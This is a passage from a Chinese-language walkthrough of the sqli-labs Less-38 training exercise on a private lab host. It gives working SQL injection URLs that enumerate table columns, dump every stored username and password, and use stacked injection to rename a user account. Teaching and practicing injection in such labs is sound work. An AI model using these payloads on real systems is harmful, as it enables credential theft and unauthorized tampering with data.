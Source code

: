 ![image-20220601103009233.png](assets/1706846040-5c5b5a3603c6a0437c6f388f17568be6.png)

查一下字段名，获取一下用户账号，然后利用堆叠注入我们再自己添加一个账号

```plain
http://10.211.55.27/Less-38/?id=-1%27%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=%27users%27%20--+
```

![image-20220601103526859.png](assets/1706846040-8044bc5a1b50a4defebfa667443fab19.png)

获取一下用户账号密码看到了 Dumb Dumb

```plain
http://10.211.55.27/Less-38/?id=-1%27%20union%20select%201,2,group_concat(username,%27|%27,password)%20from%20users%20--+
```

![image-20220601104111207.png](assets/1706846040-a82d60cbc469cbe07d26df5828293857.png)

下面我们就利用堆叠注入修改一下他的账号`Dumb111`

```plain
http://10.211.55.27/Less-38/?id=-1%27;%20update%20users%20set%20username=%27Dumb111%27%20where%20username=%27Dumb%27--+
```

![image-20220601105429983.png](assets/1706846040-f3a00c05939de5f52cbd95c817b72def.png)
